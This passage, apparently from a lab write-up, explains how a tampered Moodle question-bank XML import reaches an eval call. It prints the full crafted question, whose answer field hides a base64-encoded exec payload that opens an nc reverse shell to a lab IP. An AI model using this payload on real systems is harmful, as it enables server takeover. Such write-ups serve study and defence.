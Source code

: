 In our case, we were dealing with a relatively patched version of moodle, so we had to use what was, essentially, the most complicated version of the attack - sabotaging an XML export of the question bank and re-importing it with our tailored question containing the exploit. Modifying the XML allowed the attack to proceed because you could create an invalid version of the question which never had its variables replaced with static values, which was the previous protection on the eval call.

In my case, I forced the following question:
```xml
  <question type="calculated">
    <name>
      <text>PatchQ</text>
    </name>
    <questiontext format="html">
      <text>What is the sum of the first 1337 numbers in the fibonacci set?</text>
    </questiontext>
    <generalfeedback format="html">
      <text></text>
    </generalfeedback>
    <defaultgrade>1.0000000</defaultgrade>
    <penalty>0.3333333</penalty>
    <hidden>0</hidden>
    <synchronize>0</synchronize>
    <single>0</single>
    <answernumbering>abc</answernumbering>
    <shuffleanswers>1</shuffleanswers>
    <correctfeedback>
      <text></text>
    </correctfeedback>
    <partiallycorrectfeedback>
      <text></text>
    </partiallycorrectfeedback>
    <incorrectfeedback>
      <text></text>
    </incorrectfeedback>
<answer fraction="100">
    <text>log(1){exec(base64_decode(cm0gL3RtcC9mOyBta2ZpZm8gL3RtcC9mOyBjYXQgL3RtcC9mIHwgL2Jpbi9zaCAtaSAyPiYxIHxuYyAxMC4xMC4xNC4xOCAxNDQxID4gL3RtcC9m
))
}</text>
    <tolerance>0.01</tolerance>
    <tolerancetype>1</tolerancetype>
    <correctanswerformat>1</correctanswerformat>
    <correctanswerlength>2</correctanswerlength>
    <feedback format="html">
<text></text>
    </feedback>
</answer>
    <unitgradingtype>0</unitgradingtype>
    <unitpenalty>0.1000000</unitpenalty>
    <showunits>3</showunits>
    <unitsleft>0</unitsleft>
<dataset_definitions>
<dataset_definition>
    <status><text>private</text>
</status>
    <name><text>x</text>
</name>
    <type>calculated</type>
    <distribution><text>uniform</text>
</distribution>
    <minimum><text>1</text>
</minimum>
    <maximum><text>10</text>
</maximum>
```